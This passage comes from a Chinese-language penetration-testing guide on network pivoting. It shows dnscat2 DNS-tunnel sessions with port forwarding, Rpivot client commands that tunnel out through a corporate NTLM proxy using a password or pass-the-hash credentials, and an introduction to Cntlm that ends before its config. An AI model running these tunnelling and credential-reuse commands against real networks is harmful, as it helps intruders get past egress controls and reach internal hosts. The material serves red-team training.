 在收到服务器端的连接后，可以使用 `windows` 命令查看活动会话：

```sh
dnscat2> windows
0 :: main [active]
  dns1 :: DNS Driver running on 0.0.0.0:53 domains = tunneldomain.com [*]
  1 :: command session (debian)
  2 :: sh (debian) [*]
```

要启动端口转发，请选择带有 `session -i <num>` 的命令会话：

```sh
dnscat2> session -i 1
New window created: 1
New window created: 1
history_size (session) => 1000
This is a command session!

That means you can enter a dnscat2 command such as
'ping'! For a full list of clients, try 'help'.

command session (debian) 1>
```

使用 `listen [lhost:]lport rhost:rport` 命令转发一个端口：

```sh
command session (debian) 1> listen 127.0.0.1:8080 10.0.0.20:80
```

这将绑定攻击者机器上的 8080 端口，并将所有连接转发到 10.0.0.20:80。

### 公司的 HTTP 代理作为一种出路

HTTP 代理组织的地方为他们的员工访问外部网络应用程序提供了一个良好的渗出机会，因为你有正确的凭据;）

#### 使用 Rpivot

我已经在 NAT 穿越部分提到了这个工具。它还支持通过 NTLM HTTP 代理连接到外部世界。服务器端命令保持不变，使用客户端命令如下：

```sh
python client.py --server-ip <rpivot_server_ip> --server-port 9999\
--ntlm-proxy-ip <proxy_ip> --ntlm-proxy-port 8080 --domain CONTOSO.COM\
--username Alice --password P@ssw0rd
```

或者如果你有 LM:NT 哈希而不是密码：

```sh
python client.py --server-ip <rpivot_server_ip>\
--server-port 9999 --ntlm-proxy-ip <proxy_ip> --ntlm-proxy-port 8080 --domain CONTOSO.COM\
--username Alice --hashes 9b9850751be2515c8231e5189015bbe6:49ef7638d69a01f26d96ed673bf50c45
```

#### Cntlm

[Cntlm](http://cntlm.sourceforge.net/) 是通过 NTLM 代理运行任何非代理感知程序的首选工具。基本上这个工具对一个代理进行身份验证，并将本地端口绑定到你指定的外部服务。这个端口绑定不需要任何认证，所以你可以直接使用你的工具（例如 putty/ssh）。它使用配置文件进行操作。这里有一个准系统配置的例子来转发端口 443（这个端口是最有可能被允许通过代理的）：
